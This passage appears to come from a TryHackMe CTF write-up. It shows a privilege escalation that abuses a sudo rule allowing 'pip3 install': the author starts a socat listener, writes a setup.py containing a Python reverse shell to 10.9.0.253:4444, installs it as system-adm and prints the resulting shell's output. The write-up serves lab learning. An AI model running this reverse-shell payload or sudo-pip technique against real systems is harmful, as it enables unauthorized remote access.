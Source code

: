 **Armed with above information, we can escalate to user `system-adm` via `sudo /usr/bin/pip3 install *`.**

**According to [GTFOBins](https://gtfobins.github.io/gtfobins/pip/#sudo), we can execute the following commands:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/VulnNet-dotpy/images/Pasted%20image%2020221227235925.png)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-dotpy]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
```

```
web@vulnnet-dotpy:~/shuriken-dotpy$ cd /dev/shm
web@vulnnet-dotpy:/dev/shm$ mkdir privesc;cd privesc
web@vulnnet-dotpy:/dev/shm/privesc$ cat << EOF > setup.py
cat << EOF > setup.py
> import socket,subprocess,os
> s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
> s.connect(("10.9.0.253",4444))
> os.dup2(s.fileno(),0)
> os.dup2(s.fileno(),1)
> os.dup2(s.fileno(),2)
> import pty
> pty.spawn("/bin/bash")
> EOF
web@vulnnet-dotpy:/dev/shm/privesc$ sudo -u system-adm /usr/bin/pip3 install .
Processing /dev/shm/privesc
```

```
system-adm@vulnnet-dotpy:/tmp/pip-j6gu500m-build$ ^C
system-adm@vulnnet-dotpy:/tmp/pip-j6gu500m-build$ whoami;hostname;id;ip a
system-adm
vulnnet-dotpy
uid=1000(system-adm) gid=1000(system-adm) groups=1000(system-adm),24(cdrom)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:25:75:2b:22:c9 brd ff:ff:ff:ff:ff:ff
    inet 10.10.130.194/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3249sec preferred_lft 3249sec
    inet6 fe80::25:75ff:fe2b:22c9/64 scope link 
       valid_lft forever preferred_lft forever
```
